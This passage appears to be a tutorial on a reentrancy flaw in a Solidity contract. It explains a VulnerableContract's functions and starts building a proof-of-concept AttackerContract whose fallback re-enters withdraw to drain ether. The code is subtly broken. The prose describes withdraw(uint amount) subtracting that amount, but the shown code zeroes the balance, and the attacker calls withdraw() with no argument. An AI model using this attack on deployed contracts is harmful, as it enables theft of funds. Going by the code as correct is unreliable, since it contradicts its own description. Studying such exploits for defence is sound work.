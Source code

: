 ```sol

        balances[msg.sender] = 0;
    }

    function getBalance() public view returns (uint) {
        return balances[msg.sender];
    }
}
```

This is a simple smart contract called VulnerableContract that allows users to deposit and withdraw ether. The contract has three functions:

**1. deposit():** This function allows anyone to deposit ether into the contract. The amount of ether deposited by the sender is added to their balance in the balances mapping.

**2. withdraw(uint amount):** This function allows a user to withdraw a specified amount of ether from their balance in the balances mapping. It first checks if the user has a sufficient balance to withdraw the specified amount by using the require statement. If the user has sufficient balance, the function attempts to transfer the specified amount of ether to the user's address using the call function. If the transfer is successful, the specified amount is subtracted from the user's balance in the balances mapping.

**3. getBalance():** This function allows a user to check their balance in the balances mapping. It returns the balance of the caller (the address that calls the function).

Note that this contract is vulnerable to a reentrancy attack. If an attacker were to call the withdraw() function from a malicious contract that implements a fallback or receive function that calls back into the vulnerable contract, the attacker could repeatedly call the withdraw() function and drain the contract's balance. 

Now we will create a POC of the VulnerableContract that exploits its vulnerability to a reentrancy attack. We will then use the POC to demonstrate how the vulnerability can be exploited to drain the contract's balance.

To create the AttackerContract, we first need to create an instance of the VulnerableContract. We do this by passing the address of the deployed VulnerableContract to the constructor of the AttackerContract.

```sol
contract AttackerContract {
    VulnerableContract vulnerableContract;

    constructor(VulnerableContract _vulnerableContract) {
        vulnerableContract = VulnerableContract(_vulnerableContract);
    }
}
```
Next, we need to create a fallback function that is called whenever someone sends ether to the AttackerContract. In this fallback function, we check if the balance of the VulnerableContract is greater than or equal to 1 ether. If it is, we call the withdraw function of the VulnerableContract.

```sol
    fallback() external payable {
        if (address(vulnerableContract).balance >= 1 ether) {
            vulnerableContract.withdraw();
        }
    }
```
